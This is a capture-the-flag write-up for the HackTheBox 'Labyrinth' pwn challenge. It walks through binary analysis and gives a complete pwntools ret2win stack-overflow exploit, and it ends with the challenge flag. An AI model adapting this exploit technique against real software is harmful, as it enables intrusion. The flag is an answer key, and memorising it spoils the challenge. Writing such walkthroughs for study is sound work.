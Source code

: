 ```yaml
---
Name: Labyrinth
Category: Pwn
Difficulty: Easy
---
```


## Description
>You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Solution
Check file info and binary protections.
```bash
file labyrinth 
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file labyrinth 
[*] '/home/crystal/Desktop/htb/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

Decompile in ghidra and find we must select door `69` followed by door `069`. However, providing `069` is enough to satisfy both conditions.

In ghidra, we can find our offset of `64` and a "win" function called `escape_plan` which prints the flag.
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401602
continue
'''.format(**locals())

# Binary filename
exe = './labyrinth'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Offset to RIP
offset = 64

# Start program
io = start()

ret = 0x401016

# Build the payload
payload = flat([
    b'C' * (offset - 8),
    ret,  # stack alignment
    elf.symbols.escape_plan
])

# Pass initial checks
io.sendlineafter(b'>', b'069')

# Send the payload
io.sendlineafter(b'>', payload)

# Got Flag?
io.recvuntil(b'journey:')
warn(io.recvlines(2)[1].decode())
```

`HTB{3sc4p3_fr0m_4b0v3}`